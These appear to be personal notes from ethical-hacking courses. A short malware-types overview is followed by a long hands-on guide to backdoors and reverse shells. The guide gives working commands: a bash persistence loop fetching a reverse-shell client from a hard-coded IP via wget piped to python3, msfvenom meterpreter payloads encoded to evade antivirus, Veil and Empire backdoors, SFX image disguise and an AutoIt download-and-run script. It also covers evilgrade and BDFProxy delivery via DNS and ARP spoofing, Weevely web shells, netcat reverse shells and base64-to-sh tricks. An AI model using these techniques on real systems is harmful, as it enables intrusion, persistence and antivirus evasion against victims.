<https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/22279804#overview>

## Software attacks and Malware: Exploitation and Gaining Access

**Malware** is software designed to harm devices or networks. There are
many types of malware. The primary purpose of malware is to obtain
money, or in some cases, an intelligence advantage that can be used
against a person, an organization, or a territory.  

Some of the most common types of malware attacks today include: 

Anti malware defenses are a core part of any company's security model in
this day and age. So it's important as an IT support specialist to know
what's out there. Today, the internet is full of bots, viruses, worms,
and other automated attacks. Lots of unprotected systems would be
compromised in a matter of minutes if directly connected to the internet
without any safeguards or protections in place. And they need to have
critical system updates. While modern operating systems have reduced
this threat vector by having basic firewalls enabled by default, there's
still a huge amount of attack traffic on the Internet. Anti malware
measures play a super important role in keeping this type of attack off
your systems and helping to protect your users. Antivirus software has
been around for a really long time but some security experts question
the value it can provide to a company especially since more
sophisticated malware and attacks have been spun up in recent years.
Antivirus software is signature based. This means that it has a database
of signatures that identify known malware like the unique file hash of a
malicious binary or the file associated with an infection. Or it could
be that network traffic characteristics that malware uses to communicate
with a command and control server. Antivirus software will monitor and
analyze things like new files being created or being modified on the
system in order to watch for any behavior that matches a known malware
signature. If it detects activity that matches the signature, depending
on the signature type, it will attempt to block the malware from harming
the system. But some signatures might only be able to detect the malware
after the infection has occurred. In that case, it may attempt to
quarantine the infected files. If that's not possible, it will just log
and alert the detection event. At a high level, this is how all
antivirus products work. There are two issues with antivirus software
though. The first is that they depend on antivirus signatures
distributed by the antivirus software vendor. The second is that they
depend on the antivirus vendor discovering new malware and writing new
signatures for newly discovered threats. Until the vendor is able to
write new signatures and publish and disseminate them, your antivirus
software can't protect you from these emerging threats. Boo. Antivirus,
which is designed to protect systems, actually represents an additional
attack surface that attackers can exploit. You might be thinking, wait,
our own antivirus tools can be another threat to our system? What's the
deal with that? Well, this is because of the very nature of one
antivirus engine must do. It takes arbitrary and potentially malicious
binaries as input and performs various operations on them. Because of
this, there are a lot of complex code where very serious bugs could
exist. Exactly this kind of vulnerability was found in the Sophos
Antivirus engine back in 2012. You can read more about this event in the
supplementary readings. So, it sounds like antivirus software isn't
ideal and has some pretty large drawbacks. Then why are we still
recommending it as a core piece of security design? The short answer is
this. It protects against the most common attacks out there on the
internet. The really obvious stuff that still poses a threat to your
systems still needs to be defended against. Antivirus is an easy
solution to provide that protection. It doesn't matter how much you user
education you instill in your employees. There will still be some folks
who will click on an e-mail that has an infected attachment. A good way
to think about antivirus in today's very noisy external threat
environment is like a filter for the attack noise on the internet today.
It lets you remove the background noise and focus on the more important
targeted or specific threats. Remember, our defense in depth concept
involves multiple layers of protection. Antivirus software is just one
piece of our anti malware defenses. If antivirus can't protect us from
the threats we don't know about, how do we protect against the unknown
threats out there? While antivirus operates on a blacklist model,
checking against a list of known bad things and blocking what gets
matched, there's a class of anti malware software that does the
opposite. Binary whitelisting software operates off a white list. It's a
list of known good and trusted software and only things that are on the
list are permitted to run. Everything else is blocked. You can think of
this as applying the implicit deny ACL rule to software execution. By
default, everything is blocked. Only things explicitly allowed to
execute are able to. I should call out that this typically only applies
to executable binaries, not arbitrary files like PDF documents or text
files. This would naturally defend against any unknown threats but at
the cost of convenience. Think about how frequently you download and
install new software on your machine. Now imagine if you had to get
approval before you could download and install any new software. That
would be really annoying, don't you think? Now, imagine that every
system update had to be whitelisted before it could be applied.
Obviously, not trusting everything wouldn't be very sustainable. It's
for this reason that binary whitelisting software can trust software
using a couple of different mechanisms. The first is using the unique
cryptographic hash of binaries which are used to identify unique
binaries. This is used to whitelist individual executables. The other
trust mechanism is a software-signing certificate. Remember back when we
discussed public key cryptography and signatures using public and
private key pairs? Software signing or code signing is the same idea but
applied to software. A software vendor can cryptographically sign
binaries they distribute using a private key. The signature can be
verified at execution time by checking the signature using the public
key embedded in the certificate and verifying the trust chain of the
public key. If the hash matches and the public key is trusted, then the
software can be verified that it came from someone with the software
vendor's code signing private key. Binary whitelisting systems can be
configured to trust specific vendors' code signing certificates. They
permit all binary sign with that certificate to run. This is helpful for
automatically trusting content like system updates along with software
in common use that comes from reputable and trusted vendors. But can you
guess the downside here? Each new code signing certificate that's
trusted represents an increase in attack surface. An attacker can
compromise the code signing certificate of a software vendor that your
company trusts and use that to sign malware that targets your company.
That would bypass any binary whitelisting defenses in place. Not good.
This exact scenario happened back in 2013 to Bit9, a binary whitelisting
software company. Hackers managed to breach their internal network and
found an unsecured virtual machine. It had a copy of the code signing
certificates private key. They stole that key and used it to sign
malware that would have been trusted by all Bit9 software installations
by default.

### Software Attack Types

#### Adware

Advertising-supported software, or **adware**, is a type of legitimate
software that is sometimes used to display digital advertisements in
applications. Software developers often use adware as a way to lower
their production costs or to make their products free to the public—also
known as freeware or shareware. In these instances, developers monetize
their product through ad revenue rather than at the expense of their
users.

Malicious adware falls into a sub-category of malware known as a
**potentially unwanted application (PUA)**. A PUA is a type of unwanted
software that is bundled in with legitimate programs which might display
ads, cause device slowdown, or install other software. Attackers
sometimes hide this type of malware in freeware with insecure design to
monetize ads for themselves instead of the developer. This works even
when the user has declined to receive ads.

#### Spyware

Similar to adware, **spyware** is malware that's used to gather and sell
information without consent. It's also considered a PUA. Spyware is
commonly hidden in *bundleware*, additional software that is sometimes
packaged with other applications. PUAs like spyware have become a
serious challenge in the open-source software development ecosystem.
That’s because developers tend to overlook how their software could be
misused or abused by others.

#### Scareware

Another type of PUA is **scareware**. This type of malware employs
tactics to frighten users into infecting their own device. Scareware
tricks users by displaying fake warnings that appear to come from
legitimate companies. Email and pop-ups are just a couple of ways
scareware is spread. Both can be used to deliver phony warnings with
false claims about the user's files or data being at risk.

#### Fileless malware

**Fileless malware** does not need to be installed by the user because
it uses legitimate programs that are already installed to infect a
computer. This type of infection resides in memory where the malware
never touches the hard drive. This is unlike the other types of malware,
which are stored within a file on disk. Instead, these stealthy
infections get into the operating system or hide within trusted
applications.

**Pro tip:** Fileless malware is detected by performing memory analysis,
which requires experience with operating systems. 

#### Viruses 

**Viruses:** Malicious code written to interfere with computer
operations and cause damage to data, software, and hardware. A virus
attaches itself to programs or documents, on a computer. It then spreads
and infects one or more computers in a network.

**Ten types defined by CompTIA:**

- **Boot sector**: Executes when system loads/boots

- **Macro**: Saved is some file with macro capabilities (word, excel)

- **Program**: Infects programs

- **Multipartite**: Boot sector + program virus

- **Stealth**: Virus which aims avoid detection

  - **Encrypted**: Uses cyphers to hide from Ant-malware software

    - **Polymorphic**: An encrypted virus that changes it’s encrypted to
      avoid detection

      - **Metamorphic**: Advanced form of polymorphic virus which
        rewrites itself completely prior to file infection.

- **Armored**: Uses layers of protection

- **Hoax**: Virus disguising as something innocent/necessary (social
  engineering).

#### Ransomware

**Ransomware:** A malicious attack where threat actors encrypt an
organization's data and demand payment to restore access. 

Ransomware describes a malicious attack where threat actors encrypt an
organization's data and demand payment to restore access. According to
the Cybersecurity and Infrastructure Security Agency (CISA), ransomware
crimes are on the rise and becoming increasingly sophisticated.
Ransomware infections can cause significant damage to an organization
and its customers. An example is the
[WannaCry](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack)
attack that encrypts a victim's computer until a ransom payment of
cryptocurrency is paid.

#### Spyware

**Spyware:** Malware that’s used to gather and sell information without
consent. Spyware can be used to access devices. This allows threat
actors to collect personal data, such as private emails, texts, voice
and image recordings, and locations.

#### Logic bomb

#### Backdoor

#### Trojans

Application disguises as benign software. Remote Access Trojans (see
ProRat).

#### Worm

Propagates without consent.

- **Worms:** Malware that can duplicate and spread itself across systems
  on its own. 

- A **worm** is malware that can duplicate and spread itself across
  systems on its own. Similar to a virus, a worm must be installed by
  the target user and can also be spread with tactics like malicious
  email. Given a worm's ability to spread on its own, attackers
  sometimes target devices, drives, or files that have shared access
  over a network.

- A well known example is the Blaster worm, also known as Lovesan,
  Lovsan, or MSBlast. In the early 2000s, this worm spread itself on
  computers running Windows XP and Windows 2000 operating systems. It
  would force devices into a continuous loop of shutting down and
  restarting. Although it did not damage the infected devices, it was
  able to spread itself to hundreds of thousands of users around the
  world. Many variants of the Blaster worm have been deployed since the
  original and can infect modern computers.

- **Note:** Worms were very popular attacks in the mid 2000s but are
  less frequently used in recent years.

#### CryptoJacking

**Cryptojacking** is a form of malware that installs software to
illegally mine cryptocurrencies. You may be familiar with cryptocurrency
from the news. If you're new to the topic, cryptocurrencies are a form
of digital money that have real-world value. Like physical forms of
currency, there are many different types. For the most part, they're
referred to as coins or tokens.

By far the most telling sign of a cryptojacking infection is slowdown.
Other signs include increased CPU usage, sudden system crashes, and fast
draining batteries. Another sign is unusually high electricity costs
related to the resource- intensive process of crypto mining.

It's also good to know that there are certain measures you can take to
reduce the likelihood of experiencing a malware attack like
cryptojacking. These defenses include things like using browser
extensions designed to block malware, using ad blockers, disabling
JavaScript, and staying alert on the latest trends. Security analysts
can also educate others in their organizations on malware attacks.

#### Rootkit

A **rootkit** is designed to provide administrator-level access to a
third party without the system owner's knowledge. Given this, rootkits
are usually designed to avoid detection and can be difficult to detect.
Use a technique called DLL injection. This is known as shimming, where a
“shim” is placed between the OS and some component.

A **rootkit** is malware that provides remote, administrative access to
a computer. Most attackers use rootkits to open a backdoor to systems,
allowing them to install other forms of malware or to conduct network
security attacks.

This kind of malware is often spread by a combination of two components:
a dropper and a loader. A **dropper** is a type of malware that comes
packed with malicious code which is delivered and installed onto a
target system. For example, a dropper is often disguised as a legitimate
file, such as a document, an image, or an executable to deceive its
target into opening, or dropping it, onto their device. If the user
opens the dropper program, its malicious code is executed and it hides
itself on the target system.

Multi-staged malware attacks, where multiple packets of malicious code
are deployed, commonly use a variation called a loader. A **loader** is
a type of malware that downloads strains of malicious code from an
external source and installs them onto a target system. Attackers might
use loaders for different purposes, such as to set up another type of
malware---a botnet.

### Reverse shells (gaining access)

#### Using Metasploit

**Tut:**

- <https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/22279698#overview>

- <https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/22279706#overview>

**Installing Metasploit**:

- <https://www.metasploit.com/download>

- <https://adamtheautomator.com/install-metasploit-on-ubuntu/>

Main dir (could change depending on installation):

**<u>Basics</u>**

- The **msfconsole** exe is our main program.

- Search for modules with search \<term\>

- To use a module/exploit type use \<name\>

- Type show info to see info on the selected thing to use.

- Type show options to see options on the selected thing to use.

- Set options with set \<option_name\> \<value \>

- Show payloads to see any payloads in use.

- Exploit process (example)

  - Use nmap (for example with -sV option) to do service scan

  - Run searchsploit \<info\> to search for any found version info.

  - Then in msfconsole run search relevant value (vsftpd).

  - Run exploit to execute exploit in target machine.

##### Installing custom Metasploit module (Windows DoublePulsar) and installing wine

<https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/22279788#overview>

##### Meterpreter basic commands

This is a program built-into the Metasploit framework designed for
connecting to and working within a shell on the remote system.

Use the help command to see all options.

###### Sessions

Sometimes msf opens a remote shell session in the background instead of
the foreground.

To see sessions run “sessions”.

Connect to a session with

session -I \<session_id\>

Background a session

bg \<session_id\>

Download a file

download \<file\>

Upload a file

Upload \<file\>

###### Finding Vulnerabilities

<https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/22279760#overview>

Metasploit can be used to get info about a system.

search samba

^ that will give you all modules relating to samba – this could include
scanner modules which can be used to find system info.

You can also use searchsploit to find a vulnerabilituy, and once you get
results, use part of the as a search term to try to find an exploit in
msfconsole search as that will give you an actual playload to try.

#### \[Hacker\] Creating a backdoor and listening for connections

##### Create a backdoor with python

Server script to listen + Client script to connect

<https://github.com/bobby-valenzuela/ReverseShell>

========== BELOW IS LEGACY DOCUMENTATION – SCRIPT HAS BEEN REVISED – SEE
REPO LINK ABOVE =========

**Terminal 1:** Start server script to listen for connections

**Terminal2:** Start webserver (python here) to host payload (client
script)

Hard-code client script with hacker ip (to connect to).

**Deploy**: Get client to run a wget to execute the script

**InfiniteShell**

Use a current connection to download another file… the infinite shell.
This file just keeps calling the reverseshell if it loses connection.

Once downloaded – run infinite shell in a secret location under a
non-suspicious name and in the bg as so

nohup bash infiniteShell.sh &\> /dev/null &

**<u>Script</u>**

\#!/usr/bin/env bash

while :

do

\# CHeck if we have netstat/ss installed - see if we have a tcp
connection to our CNC server

if netstat --version &\> /dev/null

then

tcp_con=$(netstat -tupn | grep ESTABLISHED | egrep '96.126.97.119:8000'
| awk '{ print $1 }' | xargs)

else

tcp_con=$(ss -tupn | grep ESTAB | egrep '96.126.97.119:8000' | awk '{
print $1 }' | xargs)

fi

\# If we don't have a connection - start another

\[\[ ! "${tcp_con}" =~ tcp \]\] && wget -O -
96.126.97.119:8080/reverseShellClient.py | python3

sleep 60 \# run every minute

done

###### Adding option to download files

##### Creating a backdoor with msfvenom

***Listing possible payloads***

*Format*

*Example*

**Optional: Create new dir**

mkdir ~/Desktop/Malware && cd ~/Desktop/Malware

**Generate Malicious Implant**

sudo msfvenom -a \<architecture\> --platform \<linux|windows\> -p
\<payload_type\> LHOST\<kali_ip\> LPORT=\<kali_port\> --smallest -i 4 -f
\<exe|elf|python\> -o \<payload_name\>

**--smallest**: Means, smallest possible size of payload.

**-i 4**: helps avoid antivirus detection. This is num of times to
encode payload. High number means less likely to be detected, but also
increases file size. Try a high num like 15 for exampls.

**-p/--payload**: Payload must match the payload of the generated
payload.

**-e**: speciify encoder to use

**-n**: “nopsled” this is optional, but this defines how long to delay
before malicious program actually run (example -n 500 =\> 500 ms).

-f/--format: Payload format

-LHOST: Listening host (ip)

-LPORT: Listening port

-x: s

***<u>Working example \[linux\]:</u>***

sudo msfvenom -a x86 --platform linux -p
linux/x86/meterpreter/reverse_tcp LHOST\<kali_ip\> LPORT=443 --smallest
-i 4 -f elf -o malicious

All the client has to do is execute this executable in the background
and a connection will be established.

***<u>Working example \[windows\]:</u>***

sudo msfvenom -a x86 --platform windows -p
windows/x86/meterpreter/reverse_tcp LHOST\<kali_ip\> LPORT=443
--smallest -i 4 -f exe -o malicious_shell.exe

***<u>Working example \[Python\]:</u>***

sudo msfvenom –platform \<linux|windows\> -p
python/meterpreter/reverse_tcp LHOST\<kali_ip\> LPORT=6000 \>\>\>
tester.py

***<u>Working example \[Python file to run on windows\]:</u>***

sudo msfvenom –platform windows -p windows/x64/meterpreter/reverse_tcp
LHOST\<kali_ip\> LPORT=6000 -f python -o mal.py

###### Using Encoders to bypass antivirus

**View encoders**

Try using this one if you hit an error



Or

Then add it onto the command to generate payload with -e option:

Make sure the right arch/payload combination is selected…

View payloads: msfvenom –list payloads

View archs: msfvenom --list archs

##### Creating a backdoor with veil

###### Install veil

<https://github.com/Veil-Framework/Veil>

**Via apt**

sudo apt install veil -y && veil

**Latest tar-gz:**

wget
<https://github.com/Veil-Framework/Veil/archive/refs/tags/3.1.14.tar.gz>

Once installed just run with **veil**.

Checking out the “use” option you can see that veil has two tools

**Evasion**: Facilitates the implementation Backdoors.

**Ordnance**: Generates the actual payload use in the ***Evasion***
tool.

Format: use \<number\>

###### Viewing existing payloads 

**<u>Using Evasion</u>**

Using the evasion tool and selecting the “list” command will list the
available payloads:

Payload output is structured as follows (general naming pattern):

program/script language/ type of code to be executed / method

“meterpreter” allows for full control of a system and has a very light
footprint.

**Method**: for example “rev_tcp.py” means a “reverse tcp connection”
“Reverse” meaning the hackers isn’t connecting to the victim machine.
Instead, the victim’s system connects to the hackers machine. Great as
this bypasses antivirus – especially if using an http port as this looks
like the client is just browsing the web.

###### Generating a backdoor

Use the **options** command update your backdoor configuration.

Most important option is the LHOST option where you can specify the
hackers IP – where the backdoor will connect back to (can use local ip
if running as same machine).

set LHOST \<ip\>

If your hacking machine is already serving up content on port 80 then
you can change the port to 8080 as websites also use this and it
shouldn’t cause issues in the client firewall. This means you should
receive a connection attempt from the victimi machine back to your
hacking machine on port 8080 – on which you should be listening.

Run the options command again to view your changes.

**2nd-Order payload signature scrambling**

AntiVirus compares the signature of a given payload with signatures of
payloads of known virus (by scanning an internal database). Although
veil does a bit of signature scrambling we can add some additional
randomness to further alter the signature. This is also why its
important to use the latest version of veil.

One way to do this is by changing the number of processors (to a small
non-zero number) and the sleep option (to add in a small delay before
the backdoor should execute):

Select **generate** when you are ready to generate your backdoor.

After choosing a name you’ll see modules in use and where your backdoor
is stored:

**<u>Powershell payload</u>**

If you’re creating a powershell payload, you may generate a “.bat” file.

This can just be converted into an exe using an online conversion tool.

Or even better, using this tool found on github:
<https://github.com/tokyoneon/B2E>

##### Creating a payload with FatRat

Tut:
<https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/22279846#overview>

Github: <https://github.com/screetsec/TheFatRat>

Follow install instructions and run with **./fatrat**

Choose a payload method:

Once your payload is generated go to the above menu and head to \#10
(head to msfconsole) to listen for connections. Make sure payload types
and host/port details matcg:

##### Creating a payload with Empire 

Some services that check this actually sell the payload signature to
anti-viruses (which defeats the purpose – need to find a good provider
here). Don’t use “VirusTotal” as they upload signatures.

**Using nodistribute**: <https://nodistribute.com/>

**Using Spyralscanner:** <https://spyralscanner.net/>

**Using Empire**:
<https://zsecurity.org/bypassing-anti-virtus-hacking-windows-10-using-empire/>

*Text below from link above ^*

Most of us have heard of msfvenom or or at least metasploit backdoors,
they’re great but they get detected by anti-virus programs, we also know
we can use a tool
called [Veil-Evasion](https://www.youtube.com/watch?v=wrqexzfPuK8) to
generate backdoors that bypass most anti-virus programs, the
effectiveness of such tools depends on how recently they
were **updated**, therefore sometimes Veil will generate backdoors that
will get detected by several AV programs, the way to fix this is to
modify the backdoor manually to make it more unique (this is a
completely different topic, [I actually cover that in my social
engineering
course](https://zsecurity.org/courses/learn-social-engineering-from-scratch/?coupon=youtube-se)),
alternatively you can just try to generate the backdoor using another
tool, such as Empire.

Empire does not come pre-installed in Kali, follow these simple steps to
install it:

1.  Go to the /opt directory (optional).

cd /opt

 

2\. Clone the project from github.

git clone https://github.com/EmpireProject/Empire.git

 

3\. Navigate to its setup directory

cd Empire/setup

 

4\. Run the installer

./install.sh

 

Wait for the installer to finish, and then you can run the tool from its
directory in /opt/Empire, so first you’ll have to navigate to it using
cd

cd /opt/Empire

 

Then run it

./empire

And that should start the tool for you, so you should see something like
this

 

Now you’re ready to use the tool, checkout the following video to learn
how to use the tool in general, as an example you will learn how to
generate a windows backdoor that bypass anti-virus programs and use this
backdoor to hack Windows 10.

**Linked video:** <https://youtu.be/a2NYnp7Az7k>

#### \[Hacker\] Ways to avoid Anti-Virus Detection

- Code your own payload

- Use lots of random settings to ensure a unique payload.

- Use a HexEditor

##### Disguise executable as an image

Tut:
<https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/22279888#overview>

2 things you wil need

- Executable

- Image you want exe to look like

  - 

**<u>Step1: Make icon file from image file</u>**

Google “png to ico” to find online converter.

**<u>Step2: Archive the original image along with exe</u>**

- Archive as ZIP

- Create SFX Archive (this changes name to end in “.exe.”)

- Update name

- Go To SFX Options and update settings

  - 

  - Update settings

    - “Extract and update”

    - “Overwrite all files”

    - 

  - Text & Icon Settings: Load your .ico

    - 

    - 

  - Modes

    - “Unpack to temp folder”

    - “Silent mode: Hide All”

    - 

  - Setup

    - Specify files to run (payload and image)

    - 

    - ^ order matters so it’s often preferred to have the payload run
      after the image we want to show

    - 

**<u>Step3: Start listening in mfsconsole!</u>**

(see listening section)

##### Editing the Hex data

Tut:
<https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/22279878#overview>

View hex of your executable with

xxd \<executable\>

Change text data to change hash:

hexeditor mymalicious.exe

base64 encoder

Good to know that ascii can be transformed into base64 and will operate
the same. For example, “ls” can be converted into base64 resulting in
“bHM=” (where the equal sign is the padding symbol). It’s for this
reason that you can decode “bHM=” using..

echo bHM= | base64 -d

*or*

base64 -d \<\<\< bHM=

… and the output will be “ls”. This can be pipped into a shell program
to run the “ls” command.

base64 -d \<\<\< bHM= | sh

And for ls -hal

base64 -d \<\<\< bHMgLWhhbA== | sh

*JavaScript*

#### \[Hacker\] Listening for incoming connections with metasploit

sudo apt install metasploit-framework -y

<https://www.youtube.com/playlist?list=PLBf0hzazHTGN31ZPTzBbk70bohTYT7HSm>

<https://www.udemy.com/course/learn-ethical-hacking-from-scratch/learn/lecture/5306526#content>

<https://www.udemy.com/course/learn-website-hacking-penetration-testing-from-scratch/learn/lecture/7282298#search>

Meterpreter was actually designed by the same people who made Metasploit
(and Veil uses meterpreter).

So it’s best to use Metasploit to listen to connections from your
meterpreter-based backdoor.

navigate to **/usr/share/Metasploit-framework** too see all framework
details.

Commands:
<https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/>

**Start metasploit framework with**

sudo msfconsole -q

**Select module to use**

use exploit/mutli/handler

^ this module is used for generating backdoors and listening to incoming
connections.

From here run show options to see the options for this module.

Make sure the payload set matches the one you have deployed in the
backdoor:

If not let’s change it: set PAYLOAD \<payloadname\>

*Linux example*

set PAYLOAD linux/x86/meterpreter/reverse/tcp

Note: Payload type must match the one we use when generating the
backdoor payload

Run show options again to confirm those changes have taken effect.

Confirm all other options match what you’ve deployed in your backdoor
and change as need (LHOST, LPORT, etc).

- set LHOST \<hacker IP\>

- set LPORT \<hacker port\>

  - *Best to use a non suspicious port like 443 or 8080 (but make sure
    this matches your payload)*

Run exploit command to begin listening:



Once a victim runs your exploit you will see a connection like so:

This means you’re now in a meterpreter session.

Run sysinfo to get information about the connected machine

**<u>Full Example</u>**

- Then in msfconfole run

  - 

- The set patload

  - 

- Then listening kali host/port to match backdoor snipper

  - 

#### \[Hacker\] Host Payload with Apache2/Python as a simple web server

**<u>USING PYTHON</u>**

You can serve up payloads/etc from your hacking machine by creating a
simple server as so:

**\[HOST\] Start server**

python3 -m http.server 8080

This will serve up files from the directory in which the command was
called.

**<u>USING APACHE</u>**

Kali also comes preinstalled with apache.

You can just start apache with sudo systemctl start apache2

Then drop the payload in /var/www/html

#### \[Client\] Deploying a backdoor/reverse shell

##### Using evil grade (system update feature)

<https://www.udemy.com/course/learn-ethical-hacking-from-scratch/learn/lecture/5334424#overview>

###### Installing evilgrade

<https://github.com/infobyte/evilgrade>

The latest version of evilgrade does not work properly, so :

1\. Download Evilgrade.zip from the resources of this lecture.

2\. Go to the downloads and boule click evilgrade.zip to uncompress it.

3\. Open a terminal and run the following commands (needs some perl
modules):

cd /root/Downloads/evilgrade/

cpan Data::Dump

cpan Digest::MD5

cpan Time::HiRes

cpan RPC::XML

cp -r isrcore /etc/perl

Now the tool will work, it might display an error about Gnu.pm

this is a known bug with evil-grade, if its annoying you

the you can get rid of it using the by removing that lib using the
following command

apt-get remove libterm-readline-gnu-perl

Just make sure you re-install it after you're done in case it is needed
by other tools

apt-get install libterm-readline-gnu-perl

###### Configuring and running evilgrade

**Start evilgrade**

cd /opt/evilgrade

./evilgrade

**View modules**

show modules

We need to use the dap (download accelerator plus) module.

**Configure a module**

configure \<module\>

configure dap

**Show modules options**

show options

**Change the agent**

^ currently it’s set to ./agent/agent.exe

We need to change it to where our backdoor is located on our machine.

set agent \<backdoorpath\>

set agent /usr/share/veil-output/complied/rev_https_8080.exe

**Change the endsite (page that loads when backdoor is successfully
deployed)**

set endsite \<page\>

set endsite www.speedbit.com

**Verify changes and start eveilgrade**

show options

start

At this point – if evilgrade gets a request for a system update (from
some client machine) – it will say yes and respond with the backdoor.

###### Set up MIM to route system update checks to evilgrade 

At this point…

- **Terminal 1**: Veil listening for connections from backdoor.

- **Terminal 2**: Evilgrade waiting for connections for system update.

- **Terminal 3**: (now) Bettercap MIM on victim and DNS Spoofing to send
  update requests to evilgrade.

Probably best to use bettercap to initiate the MIM

bettercap -face \<interface\> -caplet spoof_caplet.cap

We next want to spoof dns so that the server to check for updates will
be the url that evilgrade uses (update.speedbit.com).

**DNS Spoofing with bettercap**

set dns.spoof.all true

set dns.spoof.domains update.speedbit.com

dns.spoof on

##### Using bdfproxy (exe downloads)

<https://www.kali.org/tools/backdoor-factory/>

**Install**: sudo apt install backdoor-factory

BDF listens for any exes being downloaded and responds with a backdoor
instead.

###### Terminal 1 : BDFProxy

**Edit config file (/opt/BDFProxy)**

- Change **proxyMode** from “regular” to “transparent”.

- Under \[targets\] change HOST for windows/linux to match your attacker
  IP.

  - Keep port as 8080 – we will need this later.

**Run BDFProxy**

###### Terminal 2: Arp spoof with bettercap

bettercap -iface eth0 -caplet spoof.cap

###### Terminal 3: Update firewall && Listen for connections

Using iptables here – but basically we want update the “nat” table and
append (A) a new rules that will re-route any packets destined for port
80 and redirect them to port 8080.

*Run as root*

iptables -t nat -A PREROUTING -p tcp –destination 80 -j REDIRECT
–to-port 8080

**Listen to incoming connections**

At this point you can listen to connections using by starting the
Metasploit console with msfconsole and running use exploit/multi/handler
(as described earlier)

Or

Use the “resource file” (rc) that BDFproxy offers

Run with Metasploit and add the full path to the resource file you’re
using

msfconsole –resource /opt/BDFProxy/bdfprroxy_msf_resource.rc

To check/interact for connections within metasploit

**List sessions**: sessions -l

**Interact with session**: sessions -I \<session_id\>

##### Disguising payload as media content

Pt1:
<https://www.udemy.com/course/learn-ethical-hacking-from-scratch/learn/lecture/7065194#content>

Pt2:
<https://www.udemy.com/course/learn-ethical-hacking-from-scratch/learn/lecture/7065196#content>

*More parts follow…*

Written in a scripting language called “autoit”

**=== CODE ===**

\#include \<StaticConstants.au3\>

\#include \<WindowsConstants.au3\>

Local $urls = "url1,url2"

Local $urlsArray = StringSplit($urls, ",", 2 )

For $url In $urlsArray

$sFile = \_DownloadFile($url)

shellExecute($sFile)

Next

Func \_DownloadFile($sURL)

Local $hDownload, $sFile

$sFile = StringRegExpReplace($sURL, "^.\*/", "")

$sDirectory = @TempDir & $sFile

$hDownload = InetGet($sURL, $sDirectory, 17, 1)

InetClose($hDownload)

Return $sDirectory

EndFunc ;==\>\_GetURLImage

**=== END CODE ===**

##### Deploying a payload via BeEF

Ideal to use the “Fake notification” module as it looks legit



##### File upload vulnerability

[See bookmark](#file-upload-vulnerabilities)

##### Wget to Downloading/Execute malicious payloads on a client machine

**If you have access to command line of victim – either directly or
indirectly (though cmd line injection dor example) you can send one
command that allows you to deploy a backdoor.**

Contents of a file can be piped to a program to be executed.

echo "print('hey')" | python3

Combine this with wget and you can redirect the script contents to the
program itself and execute upon download.

**\[CLIENT\] Download files with wget**

Client machines can download as so

wget \<ip\>:\<host\>/\<relative_file_path\>

You can even pipe this to a program to execute right away (file will not
download):

wget -O - \<ip\>:\<host\>/\<relative_file_path\> | bash

^ the “ -O – “ bit causes wget to read the file and output it as a
readable stream

Add ‘q’ to run quietly

wget -O - \<ip\>:\<host\>/\<relative_file_path\> | bash

**Other examples:**

wget -O - \<host:port/payload.py\> | python3

wget -O - \<host:port/payload.sh\> | bash

wget -O - \<host:port/payload.pl\> | perl

#### \[Hacker\] Managing a backdoor connection with meterpreter (Metasploit)

<https://www.udemy.com/course/learn-ethical-hacking-from-scratch/learn/lecture/5308698#content>

<https://www.udemy.com/course/learn-ethical-hacking-from-scratch/learn/lecture/5308702#content>

#### RubberDucky from Hak5 (pre-programmed reverse shell dongle)

**Tutorial**: <https://www.youtube.com/watch?v=A2JNBpUotZM>

#### Weevley (php backdoor)

<https://www.youtube.com/watch?v=Ig-HS6kxz4Q>

Software that generates malicious scripts (like a php script) which can
be used to creates a backdoor on a vulnerable system. Ideal for
uploading as a file through a webpage where possible.

Note: all commands here run on hacking machine.

Use the **help** command to see all custom weevley commands.

**Creating a backdoor payload (script)**:

weevley generate \<backdoor_password\> \<pathtosaveto\>

**Execute a file upload exploit and upload the malicious file**

Example: This will upload the file on a web app to
\<host\>/dvwa/hackable/uploads

Here we are uploading shell.php

Try navigating to the file in the browser – no errors is a good sign
that the file is uploaded.

**Connecting to backdoor:**

weevley \<url/filepath\> \<password\>

At this point you can run linux commands on the remote machine!

#### Opening a reverse shell with netcat

**On Hacking machine**

nc -vv -l -p \<hacker_PORT\>

**On victim machine**

nc e /bin/bash \<hacker_IP\> \<hacker_PORT\>

For example, in command
injection:

Requires older version of netcat

### Trojans (Creating and deploying)

**Optional setup**

mkdir -p ~/Desktop/Malware/trojans && cd ~/Desktop/Malware/trojans

**Choose an installer to modify and download it (kali - debian)**

sudo apt download alpine

^ this download a dpkg

#### Extract the exe contents into a file

*Install engrampa archive manager*

sudo apt update && sudo apt install engrampa -y

*Extract .deb file contents*

engrampa \<filename\> -e \<folder_to_extract_into\>

^ this requires a GUI – if not it will thrown an error.

^ Along with the installation folder (“DEB”) you’ll have some folders
(like “usr”) which will be copied to the relative home directories when
installing the program. For example, upon installation, the “usr” folder
(and it contents) will be copied to /home/usr. We will save our
malicious file in usr/bin later.

#### Creating/Implanting your malicious file

*Create reverse payload shell using Msfvenom*

<u>Format</u>

